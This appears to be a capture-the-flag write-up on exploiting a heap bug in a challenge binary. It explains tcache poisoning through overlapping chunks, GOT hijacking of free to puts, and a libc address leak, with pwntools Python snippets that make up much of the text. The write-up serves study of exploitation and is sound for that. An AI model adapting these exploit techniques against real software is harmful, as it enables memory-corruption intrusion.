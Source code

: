 ## Exploitation

Given we can get overlapping chunks we're able to do tcache poisoning on the
`0x40` tcachebin (to deeply understand why I advice you to read the exploit
and to run it into gdb). At this point we can simply write the first entry of
`@books` that is stored at a fixed memory area within the binary (no PIE). In
this new entry we could write a pointer to itself but with a large size in
order to be able to write several entries of `@books`. When it is done we
could write these entries:  
```py  
   edit(1, pwn.flat([  
           # 1==  
           0xff, # sz  
           exe.sym.stdout, # to leak libc  
           # 2==  
           0x8, # sz  
           exe.got.free, # to do GOT hiijacking  
           # 3==  
           0x8, # sz  
           exe.sym.secret_msg, # to be able to print an entry of @books  
           # 4==  
           0xff, # sz  
           exe.sym.books # ptr to itself to be able to rewrite the entries when we need to do so  
       ] + [0] * 0x60, filler = b"\x00"))  
```

This way we can easily leak libc.

## Leaking libc

Leaking libc is very easy given we already setup the entries of `@books`. We
can replace `free@GOT` by `puts@plt`. This way the next time free will be
called on an entry, it will leak the datas towards which the entry points.
Which means `free(book[1])` leaks the address of stdout within the libc.  
```py  
STDOUT = 0x21a780

# [...]

def libc_leak_free(idx):  
   io.sendlineafter(b"Option: ", b"3")  
   io.sendlineafter(b"Index: ", str(idx).encode())  
   return pwn.unpack(io.recvline().replace(b"\n", b"").ljust(8, b"\x00")) -
STDOUT

# [...]

# libc leak  
libc.address = libc_leak_free(1)  
pwn.log.success(f"libc: {hex(libc.address)}")  
```
